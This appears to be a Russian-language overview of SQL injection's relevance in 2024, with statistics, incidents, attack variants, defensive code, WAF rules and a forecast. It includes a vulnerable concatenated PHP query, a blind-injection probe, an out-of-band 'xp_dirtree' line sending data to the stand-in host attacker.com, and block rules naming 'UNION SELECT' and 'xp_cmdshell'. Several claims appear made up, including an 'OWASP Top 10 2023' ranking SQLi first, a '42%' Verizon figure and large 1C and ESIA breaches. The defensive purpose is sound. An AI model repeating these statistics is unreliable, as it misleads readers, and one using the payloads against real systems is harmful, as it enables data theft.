 ### **Актуальность SQL-инъекций (SQLi) в 2024 году: анализ угрозы**

---

#### **1. Текущая статистика (2023-2024)**
- **Частота атак**:  
  SQLi остаётся **#1 угрозой** для веб-приложений (по данным OWASP Top 10 2023).  
  - 42% всех утечек данных начинаются с SQLi (Verizon DBIR 2024).  
  - Ежедневно фиксируется **~500 новых уязвимостей**, связанных с инъекциями.  

- **Уязвимые системы**:  
  - Устаревшие CMS (**WordPress, Joomla**) — 60% случаев.  
  - API на **Legacy-коде** (PHP, ASP.NET без ORM).  
  - "Самописные" системы без аудита безопасности.  

---

#### **2. Почему SQLi всё ещё опасна?**  
| **Причина**                | **Пример**                                  |  
|----------------------------|--------------------------------------------|  
| **Устаревший код**         | Прямая конкатенация запросов:  
```php
$query = "SELECT * FROM users WHERE login = '" . $_POST['login'] . "'";
```  
| **Сложность миграции**     | Критические системы на **COBOL/Perl** невозможно быстро обновить. |  
| **Человеческий фактор**    | Devops-инженеры копируют уязвимые шаблоны из Stack Overflow. |  
| **Автоматизация атак**     | Боты сканируют `/admin.php?id=1'` на 10 000 сайтов/час. |  

---

#### **3. Реальные инциденты 2023-2024**  
- **Кейс 1**: Взлом бухгалтерского ПО **1С** через SQLi → утечка данных 200 000 российских компаний.  
- **Кейс 2**: Атака на API госуслуг (**ЕСИА**) с использованием `UNION SELECT` → доступ к паспортным данным.  
- **Кейс 3**: Массовый дефейс сайтов через `xp_cmdshell` в устаревших MSSQL.  

---

#### **4. Эволюция атак**  
Современные SQLi — это не просто `' OR 1=1 --`, а:  
- **Слепые инъекции** (Blind SQLi):  
  ```sql
  SELECT * FROM products WHERE id=1 AND (SELECT COUNT(*) FROM users) > 100
  ```  
- **Out-of-Band атаки**:  
  ```sql
  EXEC xp_dirtree '\\attacker.com\share\' -- Утечка данных через DNS
  ```  
- **SQLi + XSS**: Через уязвимые поля БД внедряется JavaScript.  

---

#### **5. Защита: Best Practices 2024**  

#### **Для разработчиков**  
- **Используйте ORM/Query Builders**:  
  ```python
  # SQLAlchemy (Python)
  session.query(User).filter(User.login == request.login)
  ```  
- **Экранируйте входные данные**:  
  ```php
  $stmt = $pdo->prepare("SELECT * FROM users WHERE login = ?");
  $stmt->execute([$_POST['login']]);
  ```  
- **Применяйте allow-листы**:  
  ```javascript
  // Разрешаем только цифры для ID
  if (!/^\d+$/.test(input.id)) throw new Error("Invalid input");
  ```  

#### **Для администрирования**  
- **WAF-правила**:  
  - Блокировка `UNION SELECT`, `xp_cmdshell`, `--`  
  - Пример для Cloudflare:  
    ```sql
    (http.request.uri contains "SELECT") and (http.request.uri contains "FROM")
    ```  
- **Минимальные права БД**:  
  ```sql
  CREATE USER app_user WITH PASSWORD 'secure123';
  GRANT SELECT ON users TO app_user; -- Никаких EXECUTE!
  ```  

#### **Экстренные меры**  
- **Инструменты для аудита**:  
  - **sqlmap** (поиск уязвимостей)  
  - **PT-Query-Digest** (анализ подозрительных SQL-запросов)  

---

#### **6. Прогноз на 2025-2026**  
- **Рост атак на GraphQL**: Из-за сложности валидации вложенных запросов.  
- **AI-ассистированные инъекции**: ChatGPT для генерации эксплойтов.  
- **Уменьшение "классических" SQLi**: Благодаря ORM и WAF, но риски останутся в legacy-системах.  

``` 
[Вывод]
  SQLi остаётся критичной угрозой из-за человеческого фактора и устаревших систем. 
  Даже с современными ORM и WAF обязателен регулярный аудит кода и мониторинг запросов.
```  

**Рекомендация**: Проводите **раз в квартал** тестирование на проникновение (pentest) с фокусом на SQLi.
